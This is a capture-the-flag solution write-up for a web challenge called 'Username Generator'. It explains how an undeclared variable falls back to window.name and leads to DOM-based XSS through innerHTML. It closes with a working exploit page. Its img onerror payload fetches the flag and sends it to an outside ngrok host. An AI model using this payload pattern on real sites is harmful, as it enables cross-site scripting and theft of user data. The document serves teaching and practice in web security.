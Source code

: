 # Username Generator - Solution

**Author**: zeyu2001

**Category**: Web

The vulnerability comes from the use of `name` below.

```javascript
const queryString = window.location.search;
const parameters = new URLSearchParams(queryString);
const usernameLength = parameters.get('length');

// Generate a random username and display it
if (usernameLength === null) {
    var name = "loading...";
    window.location.href = "/?length=10";
}
else if (usernameLength.length > 0) {
    var name = generate(+usernameLength);
}
document.getElementById('generatedUsername').innerHTML = `Your generated username is: ${name}`;
```

The logic of this script is a bit suspicious. Consider the case where the `length` query parameter exists but is a string of length 0 - the `name` variable is never declared, yet it is used.

Since in HTML, the global scope is the window object (see [global scope](https://www.w3schools.com/js/js_scope.asp)), `name` would then refer to `window.name`, which can be set when we open a new window programatically.

To solve this challenge, all we need to do is to ensure that the `name` variable is never redeclared, which happens when we use `?length=` as the query string so that `usernameLength === ''`. We can then control `window.name` when using `window.open()` on our exploit server, and cause an XSS due to the insecure usage of `innerHTML`.

```html
<script>
    window.open(
        'http://app:80?length=', 
        '<img src=x onerror=\'fetch("/flag").then(response => response.text()).then(flag => { fetch("https://678e-115-66-128-224.ngrok.io?" + flag); });\'/>')
</script>
```

Flag: `SEE{x55_15_my_m1ddl3_n4m3_00d21e74f830352781874d57dff7e384}`